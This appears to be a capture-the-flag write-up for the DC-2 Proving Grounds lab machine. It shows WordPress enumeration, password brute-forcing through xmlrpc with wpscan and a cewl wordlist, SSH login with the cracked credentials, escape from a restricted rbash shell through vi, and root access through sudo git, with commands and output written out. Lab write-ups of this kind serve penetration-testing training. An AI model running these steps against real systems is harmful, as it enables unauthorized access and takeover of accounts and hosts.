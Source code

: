 ```yaml
---
layout: post
author: H4
---
```


[Details](https://www.vulnhub.com/entry/dc-2,311/)  
This box was customized by Offensive Security and integrated in the 'proving grounds' lab.  
In the following you see the solution of the 'proving grounds' version.  

# enumeration
Performing a simple `nmap` scan to identify the attack surface.

## nmap
```bash
nmap -Pn -p80,7744 -sV  192.168.239.194 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-08 04:31 EDT
Nmap scan report for dc-2 (192.168.239.194)
Host is up (0.026s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.10 ((Debian))
7744/tcp open  ssh     OpenSSH 6.7p1 Debian 5+deb8u7 (protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.37 seconds
```

## gobuster
Using `gobuster` to look for hidden files on the identified web server.

```bash
gobuster dir -u http://dc-2/ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-files.txt -t 10 -x php -b 404,403
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://dc-2/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/raft-medium-files.txt
[+] Negative Status codes:   403,404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
2022/05/08 03:59:37 Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 301) [Size: 0] [--> http://dc-2/]
/xmlrpc.php           (Status: 405) [Size: 42]                  
/wp-login.php         (Status: 200) [Size: 2165]                
/readme.html          (Status: 200) [Size: 7413]                
/license.txt          (Status: 200) [Size: 19935]               
/wp-config.php        (Status: 200) [Size: 0]                   
/wp-trackback.php     (Status: 200) [Size: 135]                 
/wp-settings.php      (Status: 500) [Size: 0]                   
/wp-cron.php          (Status: 200) [Size: 0]                   
/wp-blog-header.php   (Status: 200) [Size: 0]                   
/wp-links-opml.php    (Status: 200) [Size: 215]                 
/wp-load.php          (Status: 200) [Size: 0]                   
/wp-signup.php        (Status: 302) [Size: 0] [--> http://dc-2/wp-login.php?action=register]
/wp-activate.php      (Status: 302) [Size: 0] [--> http://dc-2/wp-login.php?action=register]
                                                                                            
===============================================================
2022/05/08 04:01:42 Finished
===============================================================
```

> It seems that `wordpress` is installed on the web server. `wpscan` reveals that wordpress version `4.7.10` is used and outdated.
{: .prompt-info }

---

# exploitation
## wordpress
Looking for exploits against `wordpress 4.7.10`

```bash
searchsploit wordpress Core 4.7
---------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                |  Path
---------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
WordPress Core 4.7.0/4.7.1 - Content Injection                                                                                                | linux/webapps/41223.py
WordPress Core 4.7.0/4.7.1 - Content Injection (Ruby)                                                                                         | linux/webapps/41224.rb
WordPress Core < 4.7.1 - Username Enumeration                                                                                                 | php/webapps/41497.php
WordPress Core < 4.7.4 - Unauthorized Password Reset                                                                                          | linux/webapps/41963.txt
WordPress Core < 4.9.6 - (Authenticated) Arbitrary File Deletion                                                                              | php/webapps/44949.txt
WordPress Core < 5.2.3 - Viewing Unauthenticated/Password/Private Posts                                                                       | multiple/webapps/47690.md
WordPress Core < 5.3.x - 'xmlrpc.php' Denial of Service                                                                                       | php/dos/47800.py
---------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```
- `WordPress Core < 5.2.3 - Viewing Unauthenticated/Password/Private Posts` looks promising  
- `http://dc-2/?static=1&order=asc` reveals the 'secret' content  
  
> The site gives the hint that `cewl` might be a good idea. `cewl` generates custom wordlists it scrapes from the website you provide.
{: .prompt-info }

```bash
cewl -d 2 -w ourWordlist.txt "http://dc-2/?static=1&order=asc"
```

Then we are using `wpscan` to identify accounts on the `wordpress` site and perform a brute force attack with the generated wordlist.  
> We are using the `xmlrpc` endpoint here instead of the 'normal' login page, because in this way we can perform multiple login attemps with one xml-rpc call.
{: .prompt-info }

```bash
wpscan --url http://dc-2/ --password-attack xmlrpc -P /home/void/Documents/web200/playgrounds/dc2/ourWordlist.txt                                                      
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.18
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://dc-2/ [192.168.239.194]
[+] Started: Sun May  8 04:16:03 2022
...
[+] Performing password attack on Xmlrpc against 3 user/s
[SUCCESS] - jerry / adipiscing 
[SUCCESS] - tom / parturient                                                                                                                                                    
Trying admin / Powered Time: 00:01:23 <=====================================================                                                > (780 / 1458) 53.49%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: jerry, Password: adipiscing
 | Username: tom, Password: parturient
...
```
Yay! we got two valid credentials for the `wordpress` instance.  
> Unfortunately both accounts cannot be used to upload a `plugin` or escalate to an `rce`.  
{: .prompt-danger }

## ssh
On port 7744 there is a `SSH` service
> logging in with `tom:parturient` works
{: .prompt-info }

```bash
ssh tom@dc-2 -p 7744                                                                                                                                                  
The authenticity of host '[dc-2]:7744 ([192.168.239.194]:7744)' can't be established.
ED25519 key fingerprint is SHA256:JEugxeXYqsY0dfaV/hdSQN31Pp0vLi5iGFvQb8cB1YA.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[dc-2]:7744' (ED25519) to the list of known hosts.
tom@dc-2's password: 

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
tom@DC-2:~$ ls
flag3.txt  local.txt  usr
tom@DC-2:~$ cat local.txt
-rbash: cat: command not found
```

> `rbash` is in place and the program `cat` cannot be found. `rbash` is a restricted shell which is used to jail a user, so he cannot execute certain commands and act as a normal user.
{: .prompt-danger }

## escaping rbash
```bash
tom@DC-2: vi
:set shell=/bin/bash
:shell
tom@DC-2:~$ cat local.txt
bash: cat: command not found
```
Yay! We escaped `rbash` but cat is still not available.

## cat alternative to get the first flag
```bash
tom@DC-2:~$ less local.txt
9******************************c
```

## privilege escalation
Try to identify if the user `tom` is able to execute commands as a super user.

```bash
echo $PATH
/home/tom/usr/bin
export PATH=$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
tom@DC-2:/var/www/html$ sudo -l
[sudo] password for tom: 
Sorry, user tom may not run sudo on DC-2.
```

As `tom` is not allowed to do so, we are switching to the other user we know and check if this one is able to perform commands as a super user.

```
tom@DC-2:~$ su jerry
Password: 
jerry@DC-2:/home/tom$ sudo -l
Matching Defaults entries for jerry on DC-2:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jerry may run the following commands on DC-2:
    (root) NOPASSWD: /usr/bin/git
```

Checking [gtfobins](https://gtfobins.github.io/) to identify how we can exploit `git` to gain root access

```
sudo git -p help config
...
!/bin/sh
# cd /root
# ls
final-flag.txt  proof.txt
# less proof.txt
6******************************7
```
  
Pwned! <@:-)
